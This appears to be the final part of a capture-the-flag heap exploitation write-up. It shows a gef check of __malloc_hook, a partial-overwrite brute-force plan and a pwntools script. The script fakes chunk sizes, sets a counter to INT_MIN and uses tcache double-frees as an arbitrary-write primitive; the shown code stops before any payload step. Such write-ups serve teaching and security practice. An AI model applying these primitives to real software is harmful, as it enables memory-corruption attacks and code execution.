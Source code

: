 

Last step is to bruteforce the allocation to `__malloc_hook` since we can't leak anything.
```
gef> p &__malloc_hook
$1 = (void *(**)(size_t, const void *)) 0x155555326c30 <__malloc_hook>
```
A partial overwrite with 0x6c30 should do it. It should take several attempt to successfully land a chunk.



full exploit code:
```Python
#!/usr/bin/python

from pwn import *

def allocate(size,payload):
	r.sendlineafter("> ",'1')
	r.sendlineafter("> ","{:d}".format(size))
	r.sendafter("> ",payload)

def free():
	r.sendlineafter("> ",'2')

def write(size,where,what):
	allocate(size,'?'*8)
	free()
	free()
	allocate(size,p64(where))
	allocate(size,'?'*8)
	allocate(size,what)

def exploit():
	log.info("faking chunk metadatas (0x150 & 0x80)")
	log.info("overwriting n_notes with INT_MIN")
	payload = p64(0x161)
	payload = payload.ljust(0x88,'\x00')
	payload += p64(0x90)
	payload += p64(0x91)
	payload += p64(0)
	payload += p64(0x1337)
	payload += p64(0x420)
	payload += p64(0x80000000) # INT_MIN
	r.sendlineafter("> ",payload)

	log.info("setup malloc")
	allocate(0x30,'a'*8)

	log.info("faking 0x90 size and prev size")
	payload = p64(0)*2
	payload += p64(0x90)
	payload += p64(0x91)
	write(0x30,0x602048+0x90+0x90-0x18,payload)

	log.info("double freeing 0x602050 with size of 0x150")
	write(0x100,0x602050,p64(0))
	free()
	free()

	log.info("setting 0x602050 size to 0x80")
	write(0x40,0x602048,p64(0x91))

	write(0x50,0x602050,'b'*8)

```